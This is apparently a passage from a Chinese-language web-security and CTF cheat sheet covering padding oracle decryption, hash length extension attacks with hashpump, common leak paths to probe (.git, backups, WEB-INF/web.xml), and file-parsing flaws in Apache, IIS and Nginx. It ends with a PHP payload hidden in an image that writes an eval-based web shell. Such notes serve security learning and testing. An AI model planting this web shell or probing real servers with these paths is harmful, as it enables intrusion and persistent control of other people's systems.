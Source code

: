         - `D(B)[-1] = A[-1] XOR 01`
        - 有最后1 Byte就可以依此类推，调整倒数第2 Byte
    - `D(B) XOR C`就能得到明文 (C为前一块真正的密文)



## Length Extension Attack

- 很多hash算法都可能存在此攻击，例如`md5`, `sha1`, `sha256`...
- 主要是因为他们都使用Merkle-Damgard hash construction
- 会依照64 Byte分组，不足会padding
    - 1 byte的`0x80`+一堆`0x00`+8 bytes的`长度`
- IV是写死的，且每一组输出结果会当下一组的输入
- 攻击条件： (这里md5换成sha1, sha256...也通用)
    - 已知`md5(secret+message)`
    - 已知`secret长度`
    - 已知`message内容`
- 符合三个条件就能构造`md5(secret+message+padding+任意字符串)`
- 工具 - hashpump
    - 基本用法：
        1. 输入`md5(secret+message)`的值
        2. 输入`message`的值
        3. 输入`secert长度`
        4. 输入要加在后面的字符串
        5. 最后会把`md5(secret+message+padding+任意字符串)`和`message+padding+任意字符串`喷给你


# 其它

 - Information leak
     - .git / .svn
     - robots.txt
     - /.well-known
     - .DS_Store
     - .htaccess
     - .pyc
     - server-status
     - crossdomain.xml
     - admin/ manager/ login/ backup/ wp-login/ phpMyAdmin/
     - xxx.php.bak / www.tar.gz / xxx.php.swp / xxx.php~ / xxx.phps
     - /WEB-INF/web.xml
 - 文件解析漏洞
     - Apache
         - shell.php.ggininder
     - IIS
         - IIS < 7
             - a.asp/user.jpg
             - user.asp;aa.jpg
     - Nginx
         - nginx < 8.03
             - `cgi.fix_pathinfo=1`
             - Fast-CGI开启状况下
             - kaibro.jpg: `<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>`
             - 访问`kaibro.jpg/.php`生成shell.php
